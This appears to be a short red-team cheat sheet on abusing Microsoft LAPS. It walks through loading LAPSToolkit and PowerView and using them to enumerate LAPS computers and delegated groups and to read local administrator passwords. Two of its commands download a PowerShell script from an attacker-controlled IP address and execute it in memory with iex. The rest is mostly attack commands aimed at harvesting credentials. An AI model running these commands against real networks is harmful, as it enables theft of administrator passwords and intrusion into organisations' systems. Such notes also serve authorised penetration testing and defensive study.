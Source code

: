 # LAPS

## LAPS ToolKit 

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Load the module 

```csharp
. .\LAPSToolkit.ps1
or
Import-Module .\LAPSToolkit.ps1
```

### Locate computers

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28148%29.png)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](../../../../.gitbook/assets/image%20%28281%29.png)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](../../../../.gitbook/assets/image%20%2825%29.png)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](../../../../.gitbook/assets/image%20%28249%29%20%281%29.png)

## Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}

